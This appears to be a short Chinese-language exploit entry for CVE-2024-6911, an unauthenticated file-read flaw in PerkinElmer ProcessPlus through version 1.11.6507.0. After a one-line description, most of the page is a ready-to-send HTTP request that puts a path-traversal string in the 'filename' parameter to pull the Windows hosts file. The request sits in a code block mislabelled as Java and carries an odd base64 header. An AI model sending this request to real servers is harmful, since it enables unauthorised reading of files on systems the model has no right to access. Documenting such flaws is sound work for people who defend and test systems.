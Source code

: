 # PerkinElmer-ProcessPlus存在文件读取漏洞(CVE-2024-6911)

由于 PerkinElmer ProcessPlus 中包含本地文件，因此无需对外部方进行身份验证即可访问 Windows 系统上的文件。此问题影响 ProcessPlus：到 1.11.6507.0。



## poc

```java
GET /ProcessPlus/Log/Download/?filename=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts&filenameWithSerialNumber=_Errors_2102162.log HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Ldwk: YmllY2hhb2xlc2I=
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1

```

